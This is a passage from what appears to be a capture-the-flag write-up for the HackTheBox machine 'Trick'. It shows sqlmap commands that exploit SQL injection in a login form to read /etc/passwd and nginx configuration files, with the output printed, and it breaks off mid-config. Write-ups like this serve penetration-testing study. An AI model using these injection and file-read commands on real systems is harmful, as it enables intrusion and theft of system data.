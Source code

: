 We were able to sucessfuly retrieve username and password of admin user.

We can also read files with sqlmap. Passwd file read:

```sh
> sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
> cd /home/xxx/.local/share/sqlmap/output/preprod-payroll.trick.htb
> cat _etc_passwd | grep sh

root:x:0:0:root:/root:/bin/bash
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

We will use this to read nginx configuration file:

```sh
> sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
> cat /home/jayjaysea/.local/share/sqlmap/output/\
    preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default

server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name trick.htb;
	root /var/www/html;

	index index.html index.htm index.nginx-debian.html;

	server_name _;

	location / {
		try_files $uri $uri/ =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php7.3-fpm.sock;
	}
}


server {
	listen 80;
	listen [::]:80;

	server_name preprod-marketing.trick.htb;

	root /var/www/market;
	index index.php;

	location / {
		try_files $uri $uri/ =404;
	}

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

server {
        listen 80;
        listen [::]:80;

        server_name preprod-payroll.trick.htb;
```